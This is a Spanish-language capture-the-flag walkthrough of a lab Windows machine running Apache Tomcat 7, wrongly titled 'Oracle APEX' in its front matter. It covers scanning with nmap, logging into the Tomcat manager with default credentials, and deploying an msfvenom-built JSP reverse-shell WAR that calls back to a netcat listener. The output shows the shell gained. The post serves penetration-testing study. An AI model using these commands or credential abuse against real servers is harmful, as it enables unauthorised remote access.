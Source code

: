 ```yaml
---
title: "Oracle APEX"
date: 2025-05-22 00:00:00 +0800
categories: [Desarrollo,Low-Code,Oracle APEX]
tags: [Oracle,Apex]
image: images/Jerry.png 
---
```


# Reconocimiento

El primer paso en cualquier evaluación de seguridad o prueba de penetración es el reconocimiento.

En este caso, comencé con un reconocimiento activo utilizando el comando `ping` para determinar si la máquina objetivo, en este caso, la IP `10.129.136.9`, estaba activa y podía responder a las solicitudes de red.

```bash
ping -c 1 10.129.136.9
PING 10.129.136.9 (10.129.136.9) 56(84) bytes of data.
64 bytes from 10.129.136.9: icmp_seq=1 ttl=127 time=83.7 ms

--- 10.129.136.9 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 83.738/83.738/83.738/0.000 ms
```

# Escaneo

Después de confirmar que la máquina objetivo estaba activa, mi siguiente paso fue realizar un escaneo de puertos para identificar los servicios que están escuchando en la máquina. 

Para ello, utilicé Nmap, una herramienta poderosa que uso para el reconocimiento y la enumeración de puertos.

```bash
sudo nmap -sS --min-rate 5000 -p- --open 10.129.136.9 -oN allPorts.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 11:42 CEST
Nmap scan report for 10.129.136.9
Host is up (0.29s latency).
Not shown: 65534 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 28.22 seconds

```

# Enumeración

Tras identificar que el puerto 8080 estaba abierto y ejecutando un servicio HTTP, decidí profundizar en la investigación del servicio específico que estaba corriendo en ese puerto.

Utilicé Nmap con opciones adicionales que permiten obtener más información sobre el servicio y su versión.

```bash
sudo nmap -p 8080 -sCV 10.129.136.9 -oN services.txt
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-19 12:04 CEST
Nmap scan report for 10.129.136.9
Host is up (0.058s latency).

PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88
|_http-server-header: Apache-Coyote/1.1

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.79 seconds

```

# Exploración del servicio web

Después de identificar que el puerto `8080` estaba abierto y ejecutando Apache Tomcat, procedí a visitar la URL directamente en el navegador para explorar la interfaz web disponible.

![ApacheTomcat](images/Jerry1.png)

A continuación, decidí probar algunas de las rutas comunes en Apache Tomcat para identificar posibles accesos adicionales o vulnerabilidades dentro del servidor.

![AccesoApacheTomcat](images/Jerry2.png)

Al intentar iniciar sesión, probé las credenciales comunes admin:admin, pero el intento fue rechazado. Sin embargo, el mensaje de error resultante proporcionó una pista valiosa, sugiriendo que probara con el usuario tomcat y la contraseña s3cret, lo que podría ayudarnos a conseguir las claves de acceso correctas.

![AccesoApacheTomcat](images/Jerry3.png)

Al introducir estas credenciales, logré acceder exitosamente a la interfaz de administración de Apache Tomcat.

![PanelApacheTomcat](images/Jerry4.png)

Ahora, con acceso al administrador de Tomcat, tengo la capacidad de gestionar aplicaciones web desplegadas en el servidor, lo que me permite explorar posibles vulnerabilidades y vectores de ataque adicionales.

# Explotación

Después de acceder a la interfaz de administración de Apache Tomcat y confirmar la posibilidad de subir archivos, mi siguiente paso fue preparar una aplicación maliciosa que, al ser desplegada y ejecutada, me diera acceso al sistema con una consola interactiva.

Utilicé msfvenom, una herramienta poderosa para generar payloads, para crear un archivo .war que contiene un payload que, al ser ejecutado, establecerá una conexión de reverse shell con mi máquina atacante.

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.51 LPORT=443 -f war -o shell.war
```
![Shell.war](images/Jerry6.png)

Para capturar la conexión de reverse shell desde la máquina objetivo, configuré un listener en mi máquina atacante. En lugar de usar netcat solo, utilicé rlwrap para mejorar la experiencia de la shell, ya que rlwrap permite utilizar funciones avanzadas como el historial de comandos y la edición en línea.

```shell
rlwrap nc -nlvp 443
```

Con el listener configurado en mi máquina atacante usando rlwrap y netcat, el siguiente paso fue ejecutar el archivo malicioso que subí al servidor Apache Tomcat. Este archivo, diseñado para establecer una reverse shell, me proporcionaría acceso al sistema objetivo.

```shell
rlwrap nc -nlvp 443              
listening on [any] 443 ...
connect to [10.10.14.51] from (UNKNOWN) [10.129.136.9] 49192
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

C:\apache-tomcat-7.0.88>
```

Con el listener configurado y en espera, y después de ejecutar el archivo malicioso en el servidor Apache Tomcat, obtuve acceso exitoso a la máquina objetivo. La conexión de reverse shell se estableció correctamente, y ahora tengo control sobre el sistema.

Con el acceso exitoso a la máquina objetivo mediante la reverse shell, el siguiente paso es buscar las flags, que generalmente están ubicadas en directorios específicos o son archivos de texto que indican el éxito en la explotación de la máquina.

![Jerry](images/Jerry5.png)









